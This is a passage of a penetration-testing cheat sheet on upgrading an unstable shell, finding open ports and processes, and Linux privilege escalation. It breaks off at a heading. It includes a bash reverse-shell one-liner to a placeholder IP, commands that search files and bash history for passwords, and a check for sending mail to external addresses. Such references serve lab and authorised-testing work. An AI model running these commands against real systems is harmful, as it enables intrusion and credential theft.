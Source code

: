 ### Instable Shell
- Example: `sqlmap --os-shell`
- Improvements:
- A) `bash -c "bash -i >& /dev/tcp/10.10.10.10/8080 0>&1"`: Insert your IP and Port
- B) `script /dev/null -c bash`: turn your shell into an interactive shell
- C) 
    - `python3 -c 'import pty;pty.spawn("/bin/bash")'`: Further options in [spawning a Shell](https://netsec.ws/?p=337)
    - `Ctrl+Z` or `bg`
    - `stty raw -echo`: input / output is not processed, just sent straight through; do not echo back every character typed
    - `fg`
    - `export TERM=xterm`
    - **Hint**: 
    - `settings=$(stty -g) `: save your current TTY settings before using `stty`
    - `stty $settings`: restore stty settings after you have finished

<br />

## PORT / PROCESS DETECTION
## HowTo
-  `netstat -tulpn` or `ss`: display network connections, routing tables, NW interface statistics
- `fuser`: identify processes using files or sockets
- `lsof`: list open files under Linux / UNIX
- `/proc/$pid/`: Containing information about that process, notably including the processes name that opened port
- `cat /etc/mongodb.conf`: ports are sometimes hardcoded in config files
- `ps -p 68 -o command` or `ps aux | grep mongo`: get details of running processes

<br />

## PRIVILEGE OF ESCALATION (LINUX)
## Info
- **RUID** (Real User ID): Describes user who created the process
- **EUID** (Effective User ID): Describes user whose file access permissions are used by the process

### Interesting Spots
- **System Paths**
    - `/etc/shells`: check valid login shells
    - `/etc/sudoers`: check sudo user policy
    - `/etc/pam.d/common-password`: check enabled PW hash algorithm
    - `/var/www/html`: especially if SQL and/or PHP is installed
    - `mount | column -t`: show mounted volumes in table format
- **(Config/Log) Files**
    - Watch out for config files which may contain sensitive data and/or passwords
    - `find / -user root -perm -4000 -exec ls -ldb {} \;`: find all SUID files
    - `cat * | grep -i passw*`
    - `ls -la file && file file`: check privileges and type of file
    - `grep -A 3 passwd /home/.bash_history`: grep `passwd` in bash_history
    - `find /tmp/* -mtime +90`: check tmp files older than 90 days (may contain sensitive information)
    - `rpm -qa --last`: check last installed updates on Red Hat Server
- **Tools**
    - Check out which tools are installed on victim machine
    - `grep "installed" /var/log/dpkg.log`
    - `dpkg-query -f'${binary:package}\n' -W`
    - Are mail client/server installed (SMTP, mutt etc.)?
      - `echo “test” | mutt -s “test mail” -- external@example.com`: Check it you can send mails to external addresses
- **System Accounts / Users**